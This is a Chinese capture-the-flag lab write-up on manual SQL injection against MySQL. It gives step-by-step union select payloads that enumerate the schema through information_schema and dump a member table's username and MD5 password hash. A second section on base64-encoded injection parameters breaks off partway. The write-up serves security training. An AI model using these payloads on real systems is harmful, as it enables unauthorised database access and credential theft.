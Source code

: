 # <font style="color:rgb(51, 51, 51);">SQL手工注入漏洞测试(MySQL数据库)</font>
这题环境与前面两题一致，思路上与第二题几乎一致，只是字符型与数字型的区别，思路如下：

1. 通过构造恒真恒假条件发现存在数字型注入漏洞
2. 用`order by`<font style="color:rgb(77, 77, 77);">测试列数，发现有4列</font>
3. <font style="color:rgb(77, 77, 77);">通过</font>`<font style="color:rgb(77, 77, 77);">?id=-1 union select 1,2,3,4</font>`<font style="color:rgb(77, 77, 77);">发现回显2、3列</font>
4. <font style="color:rgb(77, 77, 77);">通过</font>`<font style="color:rgb(77, 77, 77);">?id=-1 union select 1,database(),user(),4</font>`<font style="color:rgb(77, 77, 77);">查到当前数据库为</font>`<font style="color:rgb(77, 77, 77);">mozhe_Discuz_StormGroup</font>`<font style="color:rgb(77, 77, 77);">，用户为</font>`<font style="color:rgb(77, 77, 77);">root@localhost</font>`
5. <font style="color:rgb(77, 77, 77);">通过</font>`<font style="color:rgb(77, 77, 77);">?id=-1 union select 1,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='mozhe_Discuz_StormGroup'),3,4</font>`<font style="color:rgb(77, 77, 77);">查到有</font>`<font style="color:rgb(77, 77, 77);">StormGroup_member</font>`<font style="color:rgb(77, 77, 77);">和</font>`<font style="color:rgb(77, 77, 77);">notice</font>`<font style="color:rgb(77, 77, 77);">两张表</font>
6. <font style="color:rgb(77, 77, 77);">通过</font>`<font style="color:rgb(77, 77, 77);">?id=-1 union select 1,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA='mozhe_Discuz_StormGroup' and TABLE_NAME='StormGroup_member'),3,4</font>`<font style="color:rgb(77, 77, 77);">查到有</font>`<font style="color:rgb(77, 77, 77);">id</font>`<font style="color:rgb(77, 77, 77);">、</font>`<font style="color:rgb(77, 77, 77);">name</font>`<font style="color:rgb(77, 77, 77);">、</font>`<font style="color:rgb(77, 77, 77);">password</font>`<font style="color:rgb(77, 77, 77);">、</font>`<font style="color:rgb(77, 77, 77);">status</font>`<font style="color:rgb(77, 77, 77);">四个字段</font>
7. <font style="color:rgb(77, 77, 77);">通过</font>`<font style="color:rgb(77, 77, 77);">?id=-1 union select 1,group_concat(id,0x5c,name),group_concat(password,0x5c,status),4 from mozhe_Discuz_StormGroup.StormGroup_member</font>`<font style="color:rgb(77, 77, 77);">查到</font>`<font style="color:rgb(77, 77, 77);">status=1</font>`<font style="color:rgb(77, 77, 77);">的</font>`<font style="color:rgb(77, 77, 77);">id=1</font>`<font style="color:rgb(77, 77, 77);">、</font>`<font style="color:rgb(77, 77, 77);">name=mozhe</font>`<font style="color:rgb(77, 77, 77);">，</font>`<font style="color:rgb(77, 77, 77);">password=d044efcb32c7a426d73cd3356154a043</font>`
8. <font style="color:rgb(77, 77, 77);">将密码进行md5解密，并用该账号密码登录即可获得KEY</font>

> <font style="color:rgb(77, 77, 77);">在</font>`<font style="color:rgb(77, 77, 77);">?id=-1 union select 1,2,3,4</font>`<font style="color:rgb(77, 77, 77);">这种正确的列数下却没有任何回显，只是显示正常页面，说明要用布尔盲注，可以用sqlmap等工具进行爆破</font>
>

# <font style="color:rgb(51, 51, 51);">SQL注入实战-MySQL</font>
进入环境，引人注目的是URL中参数值被base64加密了：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757387368623-ca8a92c1-f395-4e5e-bf1f-819f08870c3b.png)

`MQ==`解密后是1，构造恒真恒假条件测试后（经base64加密）发现存在数字型注入漏洞。

用`order by`测试列数，发现有两列。通过`<font style="color:rgb(77, 77, 77);">?id=-1 union select 1,2</font>`<font style="color:rgb(77, 77, 77);">（加密后是</font>`<font style="color:rgb(77, 77, 77);">?id=LTEgdW5pb24gc2VsZWN0IDEsMg==</font>`<font style="color:rgb(77, 77, 77);">），发现1、2列都被回显：</font>
